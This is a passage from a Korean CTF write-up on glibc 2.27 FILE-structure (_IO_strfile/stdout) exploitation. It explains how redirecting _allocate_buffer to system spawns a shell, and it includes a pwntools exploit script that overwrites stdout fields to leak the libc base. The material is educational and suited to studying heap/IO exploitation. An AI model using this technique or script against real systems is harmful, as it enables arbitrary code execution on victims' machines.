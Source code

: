 `new_buf = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size);` 부분이 우리가 `system('/bin/sh')` 를 실행 시키기 위한 중요 도구가 될 것이다.

인자로 들어간 fp 의 `_s._allocate_buffer` 의 주소가 `system` 함수 주소가 되고, `new_size` 인자가 `/bin/sh` 주소가 되면 쉘을 켤 수 있는 것이다.

```c
// glibc/libio/strfile.h:49

struct _IO_streambuf
{
  FILE _f;
  const struct _IO_jump_t *vtable;
};
typedef struct _IO_strfile_
{
  struct _IO_streambuf _sbf;
  struct _IO_str_fields _s;
} _IO_strfile;
```

보다시피 해당 `_IO_strfile_` 구조체는 `_IO_FILE` 구조체와 **vtable** 을 나타내는 `_IO_jump_t` 구조체를 담고 있으므로 fp 인 **stdout** 은 조건에 맞게 **stdout** 과 **vtable** 을 overwrite 해놓고 그 다음에 `_s` 구조체를 `system` 함수로 구성해놓아야한다.

아래는 payload 이다.

```python
#-*- coding:utf-8 -*-
from pwn import *

#context.log_level="debug"

p=process("./chall",env={"LD_PRELOAD":"./libc-2.27.so"})
libc=ELF("./libc-2.27.so")
#libc=ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
pause()
def create1(alloc_size, read_size, data): # stdout is activated
    p.recv()
    p.sendline("1")
    p.recv()
    p.sendline(str(alloc_size))
    p.recv()
    p.sendline(str(read_size))
    p.recv()
    p.sendline(data)

def create2(alloc_size, read_size, data): # stdout is deactivated
    p.sendline("1")
    p.sendline(str(alloc_size))
    p.sendline(str(read_size))
    p.sendline(data)

# heap is allocated fixed addr

# Overwrite LSB of '_IO_read_end' in `stdout`
create1(0x200000,0x5ed761,"A")

# Overwrite LSB of '_IO_write_base' in `stdout`
create2(0x200000,0x5e6761+0x208010,"A")

# libc base addr
leak = u64(p.recvline()[8:14].ljust(8,b'\x00'))
libc.address=leak-0x3ed8b0 # fixing libc base address *****

# system('/bin/sh\x00')
system=libc.sym['system']
```